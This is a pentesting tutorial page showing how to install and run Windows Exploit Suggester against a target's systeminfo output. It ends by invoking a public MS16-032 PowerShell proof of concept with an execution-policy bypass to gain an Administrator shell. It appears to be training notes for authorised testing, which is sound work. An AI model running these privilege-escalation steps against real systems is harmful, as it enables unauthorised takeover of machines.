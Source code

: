 ```yaml
---
title: Windows Exploit Suggester
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
---
```

# Windows Exploit Suggester

Original repo: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

My forked: https://github.com/amandaguglieri/Windows-Exploit-Suggester

This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.

We will create an environment for running python2.7.18, which is required:

```
# List my pyenv python versions and 2.7.18 is missing
pyenv versions

# Install version 2.7.18 
pyenv install 2.7.18

# Create a virtualenv that uses python2.7.18
pyenv virtualenv 2.7.18 tooling2

# Activate the env
pyenv activate tooling2

# Make sure you have the 2.7.18 python version running
python -V

# Install python dependencies
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz

sudo tar -xf setuptools-2.0.tar.gz
cd setuptools-2.0/
python setup.py install

cd ..

sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
cd xlrd-1.0.0/
python  setup.py install
```

Now we will gather Systeminfo command output from the windows host target:

```cmd
systeminfo
```

And we will save this in out kali machine as systeminfo.txt.

Install the Windows Exploit Suggerster:

```
git clone https://github.com/amandaguglieri/Windows-Exploit-Suggester.git

cd Windows-Exploit-Suggester
```

We then need to update our local copy of the Microsoft Vulnerability database. This command will save the contents to a local Excel file.

```bash
python windows-exploit-suggester.py --update
```

Output:

```
[*] initiating winsploit version 3.3...
[+] writing to file 2025-04-29-mssb.xls
[*] done
```

**Running Windows Exploit Suggester:**

```shell-session
python windows-exploit-suggester.py  --database 2025-04-29-mssb.xls --systeminfo systeminfo.txt 
```

### #### Exploiting MS16-032 with PowerShell PoC

We will use: https://www.exploit-db.com/exploits/39719

```powershell
Set-ExecutionPolicy bypass -scope process
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

And we obtain a cmd with Administrator level

